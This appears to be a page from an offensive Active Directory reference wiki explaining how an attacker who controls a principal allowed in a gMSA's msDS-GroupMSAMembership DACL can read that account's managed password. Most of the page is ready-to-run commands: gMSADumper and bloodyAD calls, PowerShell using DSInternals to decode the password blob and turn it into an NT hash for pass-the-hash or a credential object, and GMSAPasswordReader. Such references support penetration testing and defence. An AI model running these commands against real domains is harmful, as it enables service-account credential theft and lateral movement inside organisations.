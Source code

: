 This abuse stands out a bit from other abuse cases. It can be carried out when controlling an object that has enough permissions listed in the target gMSA account's msDS-GroupMSAMembership attribute's DACL. Usually, these objects are principals that were configured to be explictly allowed to use the gMSA account.

The attacker can then read the gMSA (group managed service accounts) password of the account if those requirements are met.
=== "UNIX-like"
    On UNIX-like systems, [gMSADumper](https://github.com/micahvandeusen/gMSADumper) (Python) can be used to read and decode gMSA passwords. It supports cleartext NTLM, pass-the-hash and Kerberoas authentications
    ```bash
    gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
    ```
    Or an alternative is bloodyAD
    ```bash
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get object $TargetObject --attr msDS-ManagedPassword
    ```
=== "Windows"
    uses the Active Directory and DSInternals PowerShell modules.
    ```bash
    # Save the blob to a variable
    $gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
    $mp = $gmsa.'msDS-ManagedPassword'

    # Decode the data structure using the DSInternals module
    ConvertFrom-ADManagedPasswordBlob $mp
    # Build a NT-Hash for PTH
    (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
    # Alterantive: build a Credential-Object with the Plain Password
    $cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
    ```
    The second one relies on [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#).
    ```bash
    .\GMSAPasswordReader.exe --AccountName 'Target_Account'
    ```